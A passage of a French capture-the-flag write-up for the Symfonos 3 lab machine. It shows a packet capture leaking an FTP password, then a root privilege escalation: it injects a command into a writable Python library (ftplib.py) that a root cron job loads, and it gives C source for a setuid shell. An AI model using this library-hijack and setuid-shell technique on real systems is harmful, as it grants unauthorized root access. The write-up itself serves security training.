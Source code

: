 ```shellsession
        0x0010:  7f00 0001 0015 c2b8 e1a9 68cc 06cf 8beb
        0x0020:  8010 0156 fe28 0000 0101 080a 0014 ffff
        0x0030:  0014 ffff
16:24:01.945057 IP localhost.ftp > localhost.49848: Flags [P.], seq 56:89, ack 13, win 342, options [nop,nop,TS val 1376255 ecr 1376255], length 33: FTP: 331 Password required for hades
        0x0000:  4500 0055 976e 4000 4006 a532 7f00 0001
        0x0010:  7f00 0001 0015 c2b8 e1a9 68cc 06cf 8beb
        0x0020:  8018 0156 fe49 0000 0101 080a 0014 ffff
        0x0030:  0014 ffff 3333 3120 5061 7373 776f 7264
        0x0040:  2072 6571 7569 7265 6420 666f 7220 6861
        0x0050:  6465 730d 0a
16:24:01.945493 IP localhost.49848 > localhost.ftp: Flags [P.], seq 13:36, ack 89, win 342, options [nop,nop,TS val 1376256 ecr 1376255], length 23: FTP: PASS PTpZTfU4vxgzvRBE
 
```

Les identifiants permettent de se connecter en tant que `hades`.

## De simple dieu à root

Sans trop de surprise (au vu de la commande cron exécutée par `root`), on a le contrôle sur des fichiers en rapport avec Python :

```shellsession
hades@symfonos3:~$ find / -type d -group gods -writable 2> /dev/null 
/usr/lib/python2.7
```

Le script appelé en tâche planifiée utilise le module standard `ftplib` :

```python
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```

Il suffit de modifier `/usr/lib/python2.7/ftplib.py` pour rajouter la commande que l'on souhaite :

```python
os.system("chown root:root /home/hades/gotroot; chmod 4755 /home/hades/gotroot;")
```

Pour moi le programme correspond à ce code C compilé :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash -p");
        return 0;
}
```
